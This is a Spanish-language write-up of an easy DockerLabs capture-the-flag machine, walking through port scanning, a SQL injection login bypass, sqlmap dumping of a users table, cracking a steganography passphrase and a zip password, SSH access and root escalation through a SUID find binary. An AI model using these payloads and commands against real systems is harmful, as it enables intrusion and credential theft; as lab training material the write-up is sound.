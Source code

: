 Hoy maquina de [dockerlabs](https://dockerlabs.es)

![dockerlabs](./imagenes/mirame.png)

Autor:yo(maciiii___)
Dificultad: Fácil
# INTRUSION

Comenzamos haciendo un escaneo de nmap

```css
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.3
```

```ruby
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 17:09 -03
Initiating ARP Ping Scan at 17:09
Scanning 172.17.0.3 [1 port]
Completed ARP Ping Scan at 17:09, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 17:09
Scanning 172.17.0.3 [65535 ports]
Discovered open port 80/tcp on 172.17.0.3
Discovered open port 22/tcp on 172.17.0.3
Completed SYN Stealth Scan at 17:09, 1.68s elapsed (65535 total ports)
Nmap scan report for 172.17.0.3
Host is up, received arp-response (0.000015s latency).
Scanned at 2024-08-10 17:09:34 -03 for 2s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:03 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.90 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

No se ve nada interesante mas que el puerto 22 pero por ahora no nos interesa.

Continuamos por el navegador y vemos esto:

#### PUERTO 80:

![puerto80](./imagenes/puerto80.png)

Al perecer es un panel de login, por lo que probaremos con las credenciales típicas:
`admin:admin`

`root:root`

pero como ninguna funciona podemos pasar a probar poner una comilla `'` si nos da el error significa que estamos frente a SQLi. Al probar nos da el siguiente error:

![error](./imagenes/error.png)

Sabiendo esto podriamos intentar nuevamente con el usuario admin pero poniendo `admin'or 1=1-- -` como usuario y de contraseña lo que sea. Una vez hecho veremos un panel que nos deja consultar el clima, pero al no tener nada interesante tendremos que usar sqlmap.

Para sqlmap pondremos en el terminal:

```css
sqlmap -u "http://172.17.0.3/index.php" --forms --batch --dbs
```

lo que nos dice que hay dos bases de datos:

```mysql
available databases [2]:
[*] information_schema
[*] users
```

La que nos interesa a nosotros es la `users` por lo que ahora pondremos:

```css
sqlmap -u "http://172.17.0.3/index.php" --forms --batch -D users --tables
```

lo que nos mostrará las tablas de la base de datos `users`. 

```mysql
Database: users
[1 table]
+----------+
| usuarios |
+----------+
```

El comando nos dice que hay una tabla llamada usuarios, por lo que ahora listaremos la tabla con:

```css
sqlmap -u "http://172.17.0.3/index.php" --forms --batch -D users -T usuarios --dump
```

```mysql
Database: users
Table: usuarios
[4 entries]
+----+------------------------+------------+
| id | password               | username   |
+----+------------------------+------------+
| 1  | chocolateadministrador | admin      |
| 2  | lucas                  | lucas      |
| 3  | soyagustin123          | agustin    |
| 4  | directoriotravieso     | directorio |
+----+------------------------+------------+

```

Ya teniendo todos los usuarios, vemos que hay uno medio anormal llamado `directorio:directoriotravieso`, ya que no parece un nombre común y se llama directorio, podriamos entrar desde el navegador a "directorios" y "directoriotravieso".

Luego de entrar a ambos, el único que si existe es "directoriotravieso", y dentro tiene una imagen, la descargamos y hacemos Esteganografía. Para hacerlo, podemos usar la herramienta `steghide`, con el comando:

```css
steghide extract -sf miramebien.jpg
```

 Al ejecutar el comando, nos pide un salvoconducto, pero como no lo tenemos le damos al enter. Como no podemos extraer nada, podemos tratar de hacer un ataque de diccionario al archivo con la herramienta `stegseek` usando el comando:

```css
stegseek extract -sf miramebien.jpg -wl /usr/share/wordlists/rockyou.txt
```

```css
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "chocolate"
[i] Original filename: "ocultito.zip".
[i] Extracting to "miramebien.jpg.out".
```

Vemos que dentro hay un .zip llamado "ocultito.zip" y que el salvoconducto es "chocolate", por lo que volvemos a ejecutar `steghide` y esta vez ponemos el salvoconducto "chocolate".

Esto nos deja un .zip el cual si intentamos extraer tiene contraseña, por lo que tendremos que utiliza `zip2john`para extraer el hash y luego crackearlo usando la herramienta `john the ripper`. Ejecutamos lo siguiente:

```css
zip2john ocultito.zip > hash.txt
```

Y luego

```css
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

con esto ya tenemos la contraseña del zip:

```ABAP
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stupid1          (ocultito.zip/secret.txt)     
1g 0:00:00:00 DONE (2024-08-10 17:33) 100.0g/s 409600p/s 409600c/s 409600C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Vemos que la contraseña del zip es "stupid1", por lo que ahora si podemos extraerlo usando el comando `unzip ocultito.zip` y poniendo la contraseña.

Esto nos deja un .txt llamado "secret.txt" que al parecer tiene la contraseña del ssh, lo probamos con `ssh carlos@172.17.0.3` y listo, estamos dentro.

# ESCALADA DE PRIVILEGIOS

Ahora somos el usuario `carlos` por lo que nos fijamos si podemos ejecutar algo con sudo usando `sudo -l` y nada. Por lo que veremos si hay algún binario que podamos aprovechar en el SUID, para verlo ejecutamos:

```ABAP
find / -perm -4000 2>/dev/null
```

```css
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/mysql/plugin/auth_pam_tool_dir/auth_pam_tool
/usr/bin/chsh
/usr/bin/find
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/sudo
```

Como vemos, esta el binario `find`, si buscamos en [GTFObins](https://gtfobins.github.io) vemos que podemos aprovecharnos de el para escalar usando el comando:

```ruby
/usr/bin/find . -exec /bin/sh -p \; -quit
```

Al usarlo escalamos a root.

![root](./imagenes/root.png)







Por si te interesa:

[INSTAGRAM](https://instagram.com/macim0_)

